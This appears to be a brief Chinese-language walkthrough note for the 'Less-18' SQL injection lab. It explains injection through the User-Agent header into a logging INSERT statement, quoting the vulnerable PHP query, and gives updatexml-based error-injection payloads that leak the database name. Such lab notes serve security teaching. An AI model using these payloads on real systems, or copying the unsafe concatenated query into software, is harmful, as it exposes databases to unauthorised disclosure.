

# Less-18

以下均为POST内容： ‘and updatexml(1,concat(0x7e,(database()),0x7e),1) and ’1‘= ‘1
注册登录再注入
1. 登录失败显示ip地址
2. 登录成功显示ip地址和User-Agent
3. $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
4. 分析后得知，需要进行闭合操作，两种方法：
（1）' or updatexml(1,concat(0x7e,(database())),1) and '1'=‘1
（2）‘ or updatexml(1,concat(0x7e,(database())),1), “, ‘’)# (注意在直接复制的时候，可能出现错误)
然后再通过mysql注入语句进行操作即可！